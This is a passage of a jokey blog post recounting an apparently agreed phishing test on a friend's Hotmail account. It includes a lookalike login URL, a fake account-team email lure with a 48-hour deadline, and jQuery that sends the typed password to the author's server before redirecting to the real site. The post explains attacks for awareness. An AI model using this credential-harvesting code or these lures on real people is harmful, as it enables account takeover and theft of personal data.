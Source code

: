 [^goodstuff]: I steal all that good stuff after the URL from the Google sign-in page `;>_>`

Here's the exact URL, if you're interested. Also if you're not interested. It's gonna be there either way.

```
https://login-live.aerobatic.io/?passive=1209600&continue=https%3A%2F%2Faccounts.live.com%2FManageAccount&followup=https%3A%2F%2Faccounts.live.com%2FManageAccount&flowName=GlifWebSignIn&flowEntry=ServiceLogin
```

![Screenshot of login page](https://i.imgur.com/aZJoeYA.png)


Perfect[^loginscreen]. This looks similar enough to fool a cursory glance, and that's all we need baybee. Maybe she'll think "why do I have to log in again? I'm already logged in to my email?", but the email asks for a "Secure Login" (whatever that is).

[^loginscreen]: Awkwardly, Hotmail changed its login screen shortly before this blog post came out. It *used* to look like that I swear.

Here's what the login page does:

    // When the Login button is clicked or Enter is pressed
    $('#passwordForm').on('submit', function() {
        var password = $('#password').val();

        // Create an image with a URL that points to my website.
        // The browser will request this URL in an attempt to load the image (which will fail since that URL doesn't exist)
        $('body').append('<img src="a-website-i-own.com/DIANA?'%20+%20password%20+%20'" alt="image">');

        // Wait one second to simulate loading time (adjust to 0.1s if you don't live in Australia sigh), and then go to the real Hotmail login page.
        // Diana will already be logged in, so this will seem to her exactly like she's just logged in to hotmail.
        window.setTimeout(function() {
            window.location = 'login.live.com'
        }, 1000);
        return false;
    }


This works by sending her password to me when she clicks "log in". The password is sent to a website of mine. Then I send her along to the real Hotmail, so it looks just liked she logged in.
The website logs everything that gets sent to it, so I can then search my logs for "DIANA" to find the log containing the password.

This is all what I'm hoping for, anyway. The email says she has 48 hours to comply to create time pressure. Telling you that you have to do something _right now_ is a common tactic to make you think instinctively and irrationally.

I login to my fake "Microsoft Account Team" hotmail account, send the email to dianalastname@hotmail.com and wait for her to have herself a red-hot browse.

About 12 hours later, I check my logs to see if she's typed her password.

She doesn't.

I wait another 12 hours.


[^fate]: Obviously the best way is to not give permission to meeeeeeeee😎
[^flubs]: A careless mistake
[^findinglinkedin]: I found her LinkedIn by just googling her name #pwned
[^hackervoice]: wait did he just say "hacker voice I'm in"?
[^haventrealised]: I haven't realised yet that successfully resetting Diana's iCloud password would lock her out of her account and violate our agreement. This is because I'm a weapons-grade bozo.
[^fantasybeach]: On haveibeenpwned.com, Diana's email address shows up in a data dump from this website. It's a game of some sort?
[^googledocs]: Later when I interview Diana, she says "I use exclusively Google Docs", so I was right! No comment about the avocado thing.
[^salted]: I'm not making these up, these are real words that real hackers use I swear.
[^insecure]: tag urself lol
[^nolinkedin]: Diana didn't have LinkedIn in 2012, so she's not in the list. But some of the 20 people who had the same password as her sure did.
[^passwordguessing]: I also try guessing what her password could be based on the password I already have for her (`qwerty1`) but it doesn't work.
[^pretty]: low
[^easy]: effort
[^myhotmail]: From 2002 do NOT @ me
[^loggedin]: This makes *no sense*, since she'll be reading her Hotmail, and then asked to log in to *the same thing she's already reading*, but NON-fake websites have bad enough UX that this is believable.
[^attention]: There are a few reasons this email wasn't attention grabbing. It was automated, from a company (not an actual human), and wasn't specifically about her, but about her account.
[^lookupthecompany]: When I interview her later, Diana says she looked up the company! She even says that getting back to Kathleen was on her to-do list, the poor thing.
[^glance]: Months later, I notice I've left a "Lorem ipsum dolor sit amet, consectetur adipiscing elit" as a dot point on the resume.
[^suggestion]: This is a genius suggestion from one of my [~_hacker connections_~](https://twitter.com/GracieNoLag).
[^gaslighted]: At this point Diana has been completely gaslighted as to what her hotmail password is, because my phishing site said the wrong password was right, and then said the right password was wrong, and she thinks it's the real Hotmail.
[^gov1]: I mean it WOULD be pretty funny
[^gov2]: And wow you could do anything, book flights, get a job, change your name...
[^gov3]: Just letting any Government Agents reading this know that I did NOT end up doing anything with this and I love democracy.
[^opsec]: If you _really_ tried you could probably find Diana's Twitter from these. You would then be a hacking genius, binary flowing through your veins, and have a CVE number assigned to your personally. I, a humble wannabee, am relying on your strict ethics to prevent you from, uh, stalking the friend of some guy whose blog post you read. You can do it. I believe in you.
[^believe]: Having said that, I don't *really* have an overwhelming amount of faith in the idea that someone won't try to do that. You can stay chilled out, dear reader, since before this blog was published Diana and I had a nice chat and fixed up her personal security.
[^passwordmanagers]: Password managers like [LastPass](https://lastpass.com) are also good for giving you unique passwords, but I reckon 2FA is the best effort:security ratio value For Normal People Tee Em.
[^authapp]: But, this is less secure, since your phone number can still be hijacked.